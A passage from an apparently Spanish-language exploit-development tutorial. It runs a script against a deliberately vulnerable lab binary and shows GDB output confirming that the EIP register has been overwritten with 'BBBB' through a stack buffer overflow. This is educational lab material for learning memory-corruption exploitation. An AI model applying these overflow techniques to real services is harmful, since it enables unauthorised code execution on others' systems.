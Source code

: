Y ahora en el `host` ejecutaremos el script:

> host

```shell
python3 step2.py
```

**Resultado esperado en GDB:** El registro `EIP` ahora debería estar sobrescrito con `0x42424242` (`BBBB`).

Por lo que veremos lo siguiente en el `GDB`:

```
Starting program: /home/kali/Desktop/insecure/secure_software 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Listening at 0.0.0.0:20201!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0xffffffff
 EBX  0x41414141 ('AAAA')
 ECX  0
 EDX  0xffffffb8
 EDI  0x41414141 ('AAAA')
 ESI  0xffffd320 —▸ 0xffffd4ff ◂— 'COLORTERM=truecolor'
 EBP  0x41414141 ('AAAA')
 ESP  0xffffd240 —▸ 0xffff0a0d ◂— 0
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd240 —▸ 0xffff0a0d ◂— 0
01:0004│     0xffffd244 —▸ 0xf7f9be14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x235d0c /* '\x0c]#' */
02:0008│     0xffffd248 ◂— 0
03:000c│     0xffffd24c —▸ 0xf7d8ad43 (__libc_start_call_main+115) ◂— add esp, 0x10
04:0010│     0xffffd250 ◂— 0
05:0014│     0xffffd254 ◂— 0
06:0018│     0xffffd258 —▸ 0xf7da4069 (__new_exitfn+9) ◂— add ebx, 0x1f7dab
07:001c│     0xffffd25c —▸ 0xf7d8ad43 (__libc_start_call_main+115) ◂— add esp, 0x10
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0xffff0a0d None
──────────────────────────────────────────────────────────────────────────────
```
